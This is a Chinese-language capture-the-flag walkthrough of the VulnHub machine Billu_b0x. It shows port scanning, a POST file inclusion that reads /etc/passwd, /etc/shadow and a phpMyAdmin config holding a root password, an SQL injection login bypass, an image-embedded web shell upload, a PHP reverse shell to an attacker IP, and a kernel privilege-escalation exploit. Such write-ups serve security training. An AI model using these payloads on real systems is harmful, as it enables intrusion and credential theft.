

> https://www.vulnhub.com/entry/billu-b0x,188/
>
> **Download (Mirror)**: https://download.vulnhub.com/billu/Billu_b0x.zip

## 信息收集

### nmap

端口扫描

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/BilluBox]
└─$ nmap --min-rate 10000 -p- 10.10.10.28
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-10 05:15 EDT
Nmap scan report for bogon (10.10.10.28)
Host is up (0.0033s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.41 seconds

```

只开放了22和80端口

nmap详细信息扫描

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/BilluBox]
└─$ sudo nmap -sT -sV -O -p22,80 10.10.10.28                           
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-10 05:16 EDT
Nmap scan report for bogon (10.10.10.28)
Host is up (0.00026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
MAC Address: 00:0C:29:54:9E:34 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds

```

nmap指定漏扫脚本扫描

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/BilluBox]
└─$ sudo nmap --script=vuln  -p22,80 10.10.10.28 
sudo: unable to resolve host kali: Name or service not known
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-10 05:17 EDT
Nmap scan report for localhost (10.10.10.28)
Host is up (0.00020s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
| http-enum: 
|   /test.php: Test page
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
MAC Address: 00:0C:29:54:9E:34 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 31.94 seconds

```

枚举出了test.php和images

### gobuster

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/BilluBox]
└─$ gobuster dir -u http://10.10.10.28/  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.28/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 3267]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.28/images/]
/c                    (Status: 200) [Size: 1]
/in                   (Status: 200) [Size: 47511]
/add                  (Status: 200) [Size: 307]
/show                 (Status: 200) [Size: 1]
/test                 (Status: 200) [Size: 72]
/head                 (Status: 200) [Size: 2793]
/uploaded_images      (Status: 301) [Size: 320] [--> http://10.10.10.28/uploaded_images/]
/panel                (Status: 302) [Size: 2469] [--> index.php]
/head2                (Status: 200) [Size: 2468]
/server-status        (Status: 403) [Size: 292]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

### dirsearch

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/BilluBox]
└─$ dirsearch -u http://10.10.10.28 -i 200

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                                                     
                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/tools/tmp/Target/BilluBox/reports/http_10.10.10.28/_24-03-10_05-20-35.txt

Target: http://10.10.10.28/

[05:20:35] Starting:                                                                                                                                                                        
[05:20:41] 200 -  307B  - /add.php                                          
[05:20:41] 200 -  307B  - /add                                              
[05:20:47] 200 -    1B  - /c                                                
[05:20:54] 200 -    3KB - /head                                             
[05:20:54] 200 -    3KB - /head.php                                         
[05:20:54] 200 -  494B  - /images/                                          
[05:20:54] 200 -   47KB - /in                                               
[05:21:01] 200 -    8KB - /phpmy/                                           
[05:21:06] 200 -    1B  - /show                                             
[05:21:08] 200 -   72B  - /test                                             
[05:21:09] 200 -   72B  - /test.php                                         
                                                                             
Task Completed                                                                                                                                                                              
```

## Web渗透

访问80端口，页面提示展示SQL注入的技能，尝试万能用户名，结果失败   `' or 1=1 #`


找找其他路径

`/c/`


`/index/`


`/im ages/`


`/add/`，该页面看着好像能上传图片，结果并不能上传成功


`/uploaded_images`，根据文件名得知，是上传图片存放的位置


`/in/`，暴露出phpinfo信息


`/show/`


`/phpmy/`，尝试弱口令失败~


`/test/`，页面提示说`file`参数为空


### POST文件包含

`http://10.10.10.28/test?file=/etc/passwd`，使用GET包含失败


POST包含成功读出`passwd`

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/BilluBox]
└─$ curl -X POST -d "file=/etc/passwd" http://10.10.10.28/test    
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
                                             
```

那再看看有没有可能还能读出`shadow`，能读出来，那就可以配合`john`解密，但是现实往往是残酷的~


前面有些路径页面并没有现实，那么通过文件包含看看有哪些信息吧？

```bash
└─$ curl -X POST -d "file=/etc/shadow" http://10.10.10.28/test                     
```


```bash
─$ curl -X POST -d "file=c.php" http://10.10.10.28/test
```


ssh连接，发现密码不对


再看看其他的

```bash
└─$ curl -X POST -d "file=panel.php" http://10.10.10.28/test
```


再试试SQL注入吧，回到首页

`' or 1=1 -- \`，成功登录，跳转到`panel.php`


页面有个下拉框，选择显示所有用户，点击`continue`，发现跟`uploaded_images`路径下的文件是一样的


选择`Add User`，发现就是刚刚的`add`界面，看看能否上传成功！


成功上传，`add`目录不能上传成功可能就是因为没有登录，没有`session`信息

去看看`uploaded_images`路径下有没有`demo.png`


能够上传成功，这个时候就可以往图片里写代码，上传图片马了


接下来就是看如何能返回回shell了，panel.php能够包含其他页面


使用bp抓包，分析


### 反弹shell

j进行url编码

```php
php -r '$sock=fsockopen("10.10.10.11",1111);exec("/bin/sh -i <&3 >&3 2>&3");'
```


### 权限提升

#### phpmyadmin配置文件

在面前发现有`phpmy`目录，里面肯定是有数据库的用户名和密码的配置文件的

github中`Auto_Wordlists`这个仓库里有一些敏感配置路径

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt


通过文件包含去访问一下该路径

```bash
sudo curl -X POST -d "file=./phpmy/config.inc.php" http://10.10.10.28/test
sudo curl -X POST -d "file=/var/www/phpmy/config.inc.php" http://10.10.10.28/test
```


发现用户root密码是roottoor

尝试ssh连接



#### 内核

查看拿到的shell的内核版本


```bash
searchsploit kernel 3.13 
```


下载

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/BilluBox]
└─$ searchsploit kernel 3.13 -m 37292.c    
```


kali这边开启Web服务

```php
 php -S 0:80 
```

编译


提权

